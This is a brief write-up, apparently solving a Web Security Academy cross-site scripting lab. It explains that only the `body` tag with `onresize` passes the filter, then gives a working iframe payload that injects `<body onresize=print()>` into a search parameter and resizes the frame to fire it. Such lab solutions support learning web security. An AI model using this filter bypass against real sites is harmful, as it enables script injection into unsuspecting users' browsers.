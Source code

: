 For some reason only the `body` tag passes the filter.
The allowed attribute is `onresize`.
This should be discovered with automatic search over candidates in the cheat sheet.
To deliver the XSS to a victim, we embed it into an iframe hosted on the exploit server.
Once the iframe is loaded it will be resized to trigger `onresize`.
```
 <iframe src="https://ac421f2c1e904d1ac0d38ad8000c0052.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='42px'>
```
